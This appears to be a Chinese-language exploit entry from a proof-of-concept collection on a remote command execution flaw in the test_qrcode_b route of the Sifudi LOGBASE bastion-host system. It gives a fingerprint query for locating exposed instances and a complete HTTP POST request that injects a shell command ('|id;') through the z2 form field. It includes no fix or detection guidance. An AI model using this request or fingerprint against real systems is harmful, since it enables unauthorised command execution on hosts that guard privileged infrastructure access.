 # 思福迪 运维安全管理系统 test_qrcode_b 远程命令执行漏洞

## 漏洞描述

思福迪运维安全管理系统是思福迪开发的一款运维安全管理堡垒机。思福迪运维安全管理系统 test_qrcode_b 路由存在命令执行漏洞。

## 漏洞影响

<a-checkbox checked>思福迪 运维安全管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="思福迪-LOGBASE"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697769918498-610b91ad-86c8-4323-a090-b7dd64e707fe-20231108132626595.png)

验证POC

```php
POST /bhost/test_qrcode_b HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Content-Length: 23
Connection: close
Content-Type: application/x-www-form-urlencoded
Referer: http://xxx.xxx.xxx.xxx
Accept-Encoding: gzip

z1=1&z2="|id;"&z3=bhost
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697769963619-1628285d-0670-4734-b2ad-1ce0f63b9c4c.png)